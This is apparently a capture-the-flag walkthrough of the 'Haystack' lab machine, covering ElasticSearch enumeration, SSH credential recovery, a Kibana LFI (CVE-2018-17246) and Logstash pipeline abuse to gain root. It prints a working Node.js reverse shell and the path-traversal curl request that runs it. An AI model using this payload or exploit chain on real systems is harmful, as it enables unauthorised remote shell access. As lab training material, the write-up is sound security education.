# PORT SCAN
* **22** &#8594; SSH
* **80** &#8594; HTTP (NGINX 1.12.2)
* **9200** &#8594; HTTP (NGINX 1.12.2) 

<br><br><br>

# ENUMERATION & USER FLAG
The port 80 welcome us with an image correlated with the machine name


Interesting stuff are loated on port `9200`



We have **<u>ElasticSearch</u>** in play (by default runningo n port 9200). With patience and time I have learned how to interract with the the ElasticSearch API and I found something interesting



Cool, first of all we don't need authentication (usually done through an API KEY) and second we have three **<u>indices</u>**, an index in elastic search is a logical namespace that holds a collection of documents. 
We can now use this indeces and see what data are storing, I had some cool info using `curl -X GET "haystack.htb:9200/bank/_search" | jq`



Here we have a collection of employees and the email fields could help us to have some valid usernames.
With the same approach we can list all the records in hte **<u>quotes</u>** index (need to add `?size=9999` to list all the records, by default only the first 10 records are listed) and with the help of `jq` I have found some base64 strings





After I decoded the 2 strings I found we have a set of credentials that can be used on SSH



After that the flag is owned, we can move on privilege escalation!

<br><br><br>

# PRIVILEGE ESCALATION
We are not in the sudoers and no SUID binary can be exploited but we have a interesting port running on target localhost



As anticipated before looking through the index, **<u>kibana</u>** is running and we know the port `5601` is hosting the service. Time to port forward thanksto SSH and see what is happening right there



The Kibana service is empty (no configuration, pretty boring) so I want to check if there is some well-known vulnerability, we already now the version is **6.4.2** (when using curl on `http://haystack.htb:9200` at the start) and this version is vulnerable to [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246) which permits LFI and leverage it to gain a RCE. Using the github repo linked above I created and stored a JS reverse shell in the target filesystem thanks to the SSH session 

```{js}
reverse shell(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect([PORT], "[IP]", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Now we take note of the full path of this reverse shell and we can abuse the `LFI` to activate the reverse shell as `kibana` user. All of this can be accomplished with 

`curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/shell.js'`

We can check the netcat listener...et'voila' horizontal movement sucess!



From the previous user session I already know that the `root` user is running **<u>logstash</u>**



Logstash use pipelines in order to work and we can check them checking the contents of `/etc/logstash/pipelines.yml` file



2 things are the pivot here :
1) There is a wildcard used to specify the `.conf` files
2) With this user we can write inside the specified directory

Is game over now (for the victim obv) because is a pretty simple step to get root access. At first I tried to create a costum configuration file but we are not able to restart the service so no way to abuse it in this way, we have no other way if not look what we have inside the configuration files

* **<u>filter.conf</u>**
This configuration file will check whatever match with the string `Ejecutar comando: [COMMAND]`. This is just for the **execute** type



* **<u>input.conf</u>**



This is linked to the previous configuration file, is of type **execute** and check for every file in `/opt/kibana/logstash_*`

<br>

We can now use this configuration combo and abuse it to execute whatever command we want as root. The command I want root have to execute is a local backdoor



Aproximately after a minute the command would be executed and we can now get access as root!



> In this machine we have encountred ElasticSearch, Kibana and Logstash. This combination of technologies is called ELK stack (like WAMP/LAMP) and is used for various Blue Team activity (like detection and log monitoring). This can be done for other activity as well and knowing how they work and how they fit in the target network is focal for in enterprise enviroment as well!
